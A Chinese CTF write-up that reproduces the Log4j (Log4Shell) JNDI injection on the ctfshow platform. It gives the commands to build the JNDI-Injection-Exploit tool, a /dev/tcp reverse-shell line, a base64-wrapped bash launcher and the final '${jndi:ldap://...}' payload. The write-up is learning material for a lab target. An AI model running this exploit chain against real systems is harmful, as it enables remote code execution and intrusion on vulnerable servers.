








## 写在前面

log4j的风波也过去一段时间了，最近入手了一台vps，正好借ctfshow平台复现一下，过程也算较为曲折，故在此做总结。

——KonDream 2022年1月20日16:22:52

## 前期准备

### 1. 一台vps

目的是拥有一个公网ip

### 2. 环境搭建

工具地址：https://github.com/welk1n/JNDI-Injection-Exploit

(1) 将工具clone到服务器上，不要在本地跑，然后编译生成jar文件

```bash
$ git clone https://github.com/welk1n/JNDI-Injection-Exploit.git
$ cd JNDI-Injection-Exploit
$ mvn clean package -DskipTests
```

需要提前配置好java和maven环境，这里自行百度，不多赘述，编译过程较长，耐心等待

(2) 构建payload

首先准备好你要弹shell的命令，比如``bash -i >& /dev/tcp/服务器ip/服务器端口 0>&1``

**记住这个端口，后面要监听这个端口**

然后到这里进行生成：https://www.jackson-t.ca/runtime-exec-payloads.html



## 反弹shell

(1) 在刚刚编译好的目录下进入target目录，也就是 JNDI-Injection-Exploit-1.0-SNAPSHOT-all.jar 所在目录

执行命令：

```bash
java -jar JNDI-Injection-Exploit-1.0-SNAPSHOT-all.jar -C "bash -c {echo,xxxxxxxx}|{base64,-d}|{bash,-i}" -A "服务器ip"
```

第一个引号内是上面生成的payload，第二个引号内是你的服务器ip

执行结果如图



**注意要在服务器端放行8180，1099，1389端口，以及你弹shell时要监听的端口，我之前因为这个好多次都无法成功**



(2)新开一个终端，监听你构造payload时候设置的端口，注意此端口也要放行



(3)上面5个粉紫色的payload中，我选的是最后一个，因为我的JDK也是1.7，其他payload我试了一下没有成功，具体还要看个人的配置

最终payload:``${jndi:ldap://ip:port/xxx}``



插入，等待服务端响应





成功弹到shell



最终拿到flag

## 写在最后

其实想想整个过程并不算难，有经验的老手一看就会，但是对于我这样的菜鸡，第一次还有很多大意的地方，比如想当然的以为某个端口它自己启用了就不需要放行了，后来才明白还需要在公网上能访问到才可以，这次学习到了很多，感谢ctfshow提供的平台。

——KonDream 2022年1月20日16:48:14
